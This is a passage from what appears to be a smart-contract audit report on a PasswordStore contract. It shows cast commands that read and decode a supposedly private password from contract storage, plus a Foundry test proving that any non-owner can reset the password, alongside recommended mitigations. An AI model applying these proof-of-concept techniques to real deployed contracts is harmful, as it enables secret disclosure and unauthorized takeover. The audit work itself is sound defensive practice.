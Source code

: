 3. Obtain the contract address and access storage with index `1` (the storage index corresponds to the variable order in the contract):

```
cast storage 0x5FbDB2315678afecb367f032d93F642f64180aa3 1
// 0x6d7950617373776f726400000000000000000000000000000000000000000014
```

4. Convert the result from hex to string:

```
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
//myPassword
```

**Recommended Mitigation:**
Employ encrypted passwords for the contract. Pre-encrypt the password off-chain before setting the encrypted password in the contract. Avoid including encryption and/or decryption methods within the contract to prevent public visibility by others.

### [H-2] The `PasswordStore::setPassword` function is susceptible to misuse, allowing any user to alter the password, contrary to the intended functionality specified in the natspec documentation.

**Description:** The `PasswordStore::setPassword` function is susceptible to misuse, allowing any user to alter the password, contrary to the intended functionality specified in the natspec documentation.

<details><summary>Function: </summary></details>
<br/>

**Impact:** All users possess the ability to repeatedly modify the password without adhering to the intended ownership restriction.

**Proof of Concept:**

```js
    function test_non_owner_can_set_password() public {
        // Owner set the password
        vm.startPrank(owner);
        string memory prevPassword = "myPrevPassword";
        passwordStore.setPassword(prevPassword);
        vm.stopPrank();

        // The other set up the new password
        address nonOwner = makeAddr("user");
        vm.startPrank(nonOwner);
        string memory newPassword = "myNewPassword";
        passwordStore.setPassword(newPassword);
        vm.stopPrank();

        // The owner checks if the current password is the same as the previous one
        vm.startPrank(owner);
        string memory newActualPassword = passwordStore.getPassword();
        assertNotEq(newActualPassword, prevPassword);
        assertEq(newActualPassword, newPassword);
        vm.stopPrank();
    }
```
